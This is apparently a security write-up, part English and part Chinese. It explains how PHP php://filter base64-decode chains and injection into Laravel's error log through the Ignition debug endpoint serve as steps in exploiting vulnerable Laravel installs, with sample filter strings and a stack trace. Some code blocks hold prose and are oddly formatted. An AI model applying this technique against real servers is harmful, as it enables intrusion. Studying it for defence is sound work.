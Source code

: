```shell
# To base64-decode once, use:
$f = 'php://filter/read=convert.base64-decode/resource=/path/to/file.txt';
# OR
$f = 'php://filter/write=convert.base64-decode/resource=/path/to/file.txt';
```

Bad characters are even ignored:

```shell
$ echo ':;.!!!!!ZEdWemRBbz0K:;.!!!!!' > /path/to/file.txt

$f = 'php://filter/read=convert.base64-decode|convert.base64-decode/resource=/path/to/file.txt';
$contents = file_get_contents($f); 
file_put_contents($f, $contents); 

$ cat /path/to/file.txt
test
```

By default, Laravel's log files (storing PHP errors and stack traces) are stored in storage/log/laravel.log. 

```shell
[2021-01-11 12:39:44] local.ERROR: file_get_contents(SOME_TEXT_OF_OUR_CHOICE): failed to open stream: No such file or directory {"exception":"[object] (ErrorException(code: 0): file_get_contents(SOME_TEXT_OF_OUR_CHOICE): failed to open stream: No such file or directory at /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php:75)
[stacktrace]
#0 [internal function]: Illuminate\\Foundation\\Bootstrap\\HandleExceptions->handleError()
#1 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php(75): file_get_contents()
#2 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php(67): Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution->makeOptional()
#3 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Http/Controllers/ExecuteSolutionController.php(19): Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution->run()
#4 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Routing/ControllerDispatcher.php(48): Facade\\Ignition\\Http\\Controllers\\ExecuteSolutionController->__invoke()
[...]
#32 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Pipeline/Pipeline.php(103): Illuminate\\Pipeline\\Pipeline->Illuminate\\Pipeline\\{closure}()
#33 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(141): Illuminate\\Pipeline\\Pipeline->then()
#34 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(110): Illuminate\\Foundation\\Http\\Kernel->sendRequestThroughRouter()
#35 /work/pentest/laravel/laravel/public/index.php(52): Illuminate\\Foundation\\Http\\Kernel->handle()
#36 /work/pentest/laravel/laravel/server.php(21): require_once('/work/pentest/l...')
#37 {main}
"}
```

We can inject (almost) arbitrary content into the file. 

```php
我们在前面说过，当对一个字符串进行ba se64-decoding处理时，PHP会忽略任何坏字符。这通常是正确的，但是有一个字符除外，即=。如果你使用ba se64-decode过滤一个中间含有字符=的字符串，PHP将产生一个错误，并且不会返回任何内容。
如果我们能控制整个文件，那就好了。然而，我们注入到日志文件中的文本只是其中很小的一部分。它不仅有一个不算很大的前缀（日期），还有一个臃肿的后缀（堆栈跟踪）。此外，我们注入的文本还出现了两次！
下面是另一件可怕的事情：


php > var_dump(base64_decode(base64_decode('[2022-04-3023:59:11]')));
string(0) ""
php >var_dump(base64_decode(base64_decode('[2022-04-12 23:59:11]')));
string(1) "2"
```
